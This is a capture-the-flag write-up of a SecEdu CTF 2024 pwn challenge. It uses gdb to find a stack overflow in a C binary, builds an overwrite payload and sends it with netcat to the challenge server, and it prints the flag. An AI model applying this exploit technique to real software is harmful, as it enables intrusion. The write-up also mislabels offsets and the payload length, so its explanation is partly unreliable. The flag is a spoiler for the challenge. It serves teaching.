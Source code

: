 ```yaml
---
title: "Overflowing with files"
description: "They also seem to have quite an interesting top-secret file delivery system, developed in C of all things?! Find a way to get the contents of the top-secret document. nc chals.secedu.site 5001"
pubDate: 2024-09-12
ctf: "SecEdu CTF 2024"
category: "pwn"
author: "sealldev & finnersio"
section: "CTFs"
image: "images/24-secedu/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/seceduweek12024#overflowing-with-files)

From the challenge description we know the program was written in C, and we can analyse the program in `gdb`.

Running the program we see the top-secret document is at the memory address `0x4011f6`.
```bash
./chal
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011f6
Please don't visit this, okay?
Response
```

Loading up gdb, we can run `info functions` to see what symbols are left in the binary. We see among others a function called `win` at `0x4011f6`, we know where we need to get to.
```c
gdb chal
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
...
0x00000000004011f6  win
0x0000000000401268  exiting
0x0000000000401282  main
...
```

Taking a look at the main function, there's not much we care about until towards the end:

```c
# Note I am using intel disassembly flavor, not AT&T
0x00000000004012f6 <+116>:	call   0x401100 <__isoc99_scanf@plt>
0x00000000004012fb <+121>:	mov    rax,QWORD PTR [rbp-0x10]
0x00000000004012ff <+125>:	mov    rsi,rax
0x0000000000401302 <+128>:	lea    rax,[rip+0xe37]        # 0x402140
0x0000000000401309 <+135>:	mov    rdi,rax
0x000000000040130c <+138>:	mov    eax,0x0
0x0000000000401311 <+143>:	call   0x4010c0 <printf@plt>
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
0x000000000040131a <+152>:	call   rax
0x000000000040131c <+154>:	mov    eax,0x0
0x0000000000401321 <+159>:	leave
0x0000000000401322 <+160>:	ret
```

We see a call to `scanf` to capture the user's input, and another call to `prinf`.  But we also see the return address (`rax`) being assigned to a value offset of the base pointer (`rbp`).

```c
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
```

Let's see how our data is being stored in the program, we will set a breakpoint at the statement above.

```c
(gdb) break *main+152
Breakpoint 1 at 0x40131a
(gdb) r
Starting program: 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011f6
Please don't visit this, okay?
Response: AAAAAAAAAAAAAAAAAAA
Okay, you know what? Lets go to 0x401268!!
 Andddd.... here we go!


Breakpoint 1, 0x000000000040131a in main ()
```

Looking at the stack pointer, we see our input and we know it is being stored on the stack. Let's see if we can overflow the buffer and change `rax` to the secret-document address.
```c
(gdb) x/s $rsp
0x7fffffffe090:	'A' <repeats 19 times>
```

From the below we know an 8 byte value (`QWORD PTR`) is being loaded into `rax` from `rbp-0x16` (`rbp - 16 bytes`).
```c
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
```

Craft a payload 16 bytes long with an extra byte at the end for the new address for `rax`.

```bash
python3 -c 'print("a"*8*16 + "A"*8)'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA
```

Run the program again.
```c
Breakpoint 1, 0x000000000040131a in main ()
(gdb) x/s $rsp
0x7fffffffe090:	'a' <repeats 128 times>, "AAAAAAAA"
(gdb) p/x $rax
$2 = 0x4141414141414141
```

It worked! `rax` is all "A" (0x41 in hex). Let's make the payload the actual address of the secret document. Unfortunately, `0x4011f6` isn't all printable characters so we will need a file for our payload. 

```bash
echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x11\x40' > payload.txt
```

We will use `echo` to save the non-printable characters to a file and load the address in reverse order as we are on a little-endian system.

Run the program with the file as input:
```c
(gdb) r < payload.txt
...
Response: Okay, you know what? Lets go to 0x4011f6!!
 Andddd.... here we go!

Awesome work, here is the only top secret file, obvious employee:
```

We have the secret file, now to do it for real with netcat. 

```
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011bd
Please don't visit this, okay?
Response: s
Okay, you know what? Lets go to 0x40122b!!
 Andddd.... here we go!

Nothing found here, but thanks for stopping by!
```

We know the program, and we know the buffer. This time we are going to `0x4011bd`. Make a new payload, and send the file with netcat along with the `-q` to quit the transmission after one second.

```bash
cat payload.txt | nc -q 1 chals.secedu.site 5001
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011bd
Please don't visit this, okay?
Response: Okay, you know what? Lets go to 0x4011bd!!
 Andddd.... here we go!

Awesome work, here is the only top secret file, obvious employee:
SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}
```

Flag: `SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}`